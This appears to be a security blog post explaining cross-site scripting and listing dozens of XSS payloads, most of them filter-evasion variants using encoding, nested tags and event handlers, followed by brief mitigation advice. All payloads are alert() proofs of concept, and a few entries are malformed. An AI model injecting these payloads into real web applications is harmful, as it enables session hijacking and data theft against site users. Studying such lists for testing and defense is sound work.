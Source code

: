 ```yaml
---
title: Cross-Site Scripting (XSS) Payloads and Mitigation Strategies
# author: Gauranga
date: 2024-04-21 16:50:00 +00:00
categories: [Writing]
tags: [XSS, Cross-Site Scripting, Security Vulnerability, Web Applications, Injection Attacks, JavaScript, Vulnerability Mitigation]
pin: true
math: true
mermaid: true
image: https://blogdetectify.cdn.triggerfish.cloud/uploads/2015/12/04174531/What-is-Cross-site-Scripting-XSS-and-how-can-you-fix-it_.png
#   path: /commons/devices-mockup.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Payloads for Cross-Site Scripting (XSS) Payloads

## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts (typically written in JavaScript) into web pages viewed by other users. This can happen when user input is not properly validated or sanitized by the application before being displayed to other users.

There are several types of XSS attacks:

1. **Stored XSS:** Also known as persistent XSS, this occurs when the injected script is permanently stored on the target server, such as in a database or a file. Whenever a user visits the affected page, the malicious script is executed.
2. **Reflected XSS:** In this type of attack, the injected script is reflected off the web server, such as in an error message or search result. The attacker typically tricks a victim into clicking on a specially crafted link that contains the malicious payload.
3. **DOM-based XSS:** This occurs when the client-side script modifies the DOM (Document Object Model) in an unsafe way, leading to a XSS vulnerability. Unlike traditional XSS attacks, DOM-based XSS does not involve the server-side code.

XSS attacks can have serious consequences, including:

- Theft of sensitive information such as cookies, session tokens, and login credentials.
- Manipulation of user sessions and actions.
- Defacement of websites.
- Distribution of malware to other users.
- Redirection to malicious websites.
- Compromise of user privacy.

## Vulnerability Details:

### XSS in HTML/Applications:

1. **Basic Payloads:**
    - `<script>alert('XSS')</script>`: Executes a simple JavaScript alert function.
    - `<scr<script>ipt>alert('XSS')</scr<script>ipt>`: Attempts to evade filters by using nested script tags.
    - `"><script>alert('XSS')</script>`: Injects a script tag within an HTML attribute.
    - `"><script>alert(String.fromCharCode(88,83,83))</script>`: Utilizes character encoding to obfuscate the alert message.
    - `<script>\\u0061lert('22')</script>`: Uses Unicode encoding to represent the script tag.
    - `<script>eval('\\x61lert(\\'33\\')')</script>`: Executes the alert using JavaScript's eval function.
    - `<script>eval(8680439..toString(30))(983801..toString(36))</script>`: Dynamically executes an alert by converting integers to strings.
    - `<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">`: Uses HTML entity encoding to inject JavaScript.
2. **Img Payloads:**
    - `<img src=x onerror=alert('XSS');>`: Triggers an alert when the image fails to load.
    - `<img src=x onerror=alert('XSS')//`: Uses a comment to bypass filters.
    - `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`: Uses character encoding for the alert message.
    - `<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>`: Repeats characters to evade detection.
    - `<img src=x:alert(alt) onerror=eval(src) alt=xss>`: Injects JavaScript through the alt attribute.
    - `"><img src=x onerror=alert('XSS');>`: Injects JavaScript within an HTML attribute.
3. **SVG Payloads:**
    - `<svgonload=alert(1)>`: Triggers an alert when the SVG loads.
    - `<svg/onload=alert('XSS')>`: Injects JavaScript within the onload attribute.
    - `<svg onload=alert(1)//`: Utilizes a comment to bypass filters.
    - `<svg/onload=alert(String.fromCharCode(88,83,83))>`: Uses character encoding for the alert message.
    - `<svg id=alert(1) onload=eval(id)>`: Dynamically executes the alert using the id attribute.
    - `"><svg/onload=alert(String.fromCharCode(88,83,83))>`: Injects JavaScript within an HTML attribute.
4. **Div Payloads:**
    - `<div onpointerover="alert(45)">MOVE HERE</div>`: Triggers an alert when the mouse pointer moves over the div element.
    - `<div onpointerdown="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is pressed over the div.
    - `<div onpointerenter="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer enters the div element.
    - `<div onpointerleave="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointermove="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer moves within the div element.
    - `<div onpointerout="alert(45)">MOVE HERE</div>`: Triggers an alert when the pointer leaves the div element.
    - `<div onpointerup="alert(45)">MOVE HERE</div>`: Triggers an alert when a pointer device button is released over the div.

### XSS using HTML5 tags:

- **`<body onload=alert(/XSS/.source)>`**: Triggers an alert when the page loads.
- **`<input autofocus onfocus=alert(1)>`**: Triggers an alert when the input field gains focus.
- **`<select autofocus onfocus=alert(1)>`**: Triggers an alert when the select element gains focus.
- **`<textarea autofocus onfocus=alert(1)>`**: Triggers an alert when the textarea element gains focus.
- **`<keygen autofocus onfocus=alert(1)>`**: Triggers an alert when the keygen element gains focus.
- **`<video/poster/onerror=alert(1)>`**: Triggers an alert when the video fails to load.
- **`<video><source onerror="javascript:alert(1)">`**: Injects JavaScript within the source tag's onerror attribute.
- **`<video src=_ onloadstart="alert(1)">`**: Triggers an alert when the video begins to load.
- **`<details/open/ontoggle="alert\`**1`">`: Triggers an alert when the details element is toggled open.
- **`<audio src onloadstart=alert(1)>`**: Triggers an alert when the audio begins to load.
- **`<marquee onstart=alert(1)>`**: Triggers an alert when the marquee element starts scrolling.
- **`<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>`**: Triggers an alert when the mouse pointer is moved over the meter element.
- **`<body ontouchstart=alert(1)>`**: Triggers an alert when a touch event starts.
- **`<body ontouchend=alert(1)>`**: Triggers an alert when a touch event ends.
- **`<body ontouchmove=alert(1)>`**: Triggers an alert when a touch event moves.

## Recommendation:

To mitigate the risk of XSS attacks, the following recommendations are provided:

- Implement strict input validation mechanisms to filter out potentially malicious input.
- Utilize output encoding techniques (e.g., HTML entity encoding, JavaScript escaping) to render user-supplied data safely.
- Implement a Content Security Policy (CSP) to restrict the execution of inline scripts and mitigate XSS risks.
- Conduct regular security assessments, including code reviews and penetration tests, to identify and remediate vulnerabilities.
- Educate developers on secure coding practices to prevent the introduction of XSS vulnerabilities in future development efforts.

The identified XSS vulnerabilities pose a significant threat to the security. By exploiting these vulnerabilities, attackers could execute arbitrary JavaScript code within the context of users' browsers, leading to various security risks, including data theft and unauthorized access. It is imperative that immediate action is taken to address these vulnerabilities and implement the recommended mitigation strategies to safeguard the application against XSS attacks.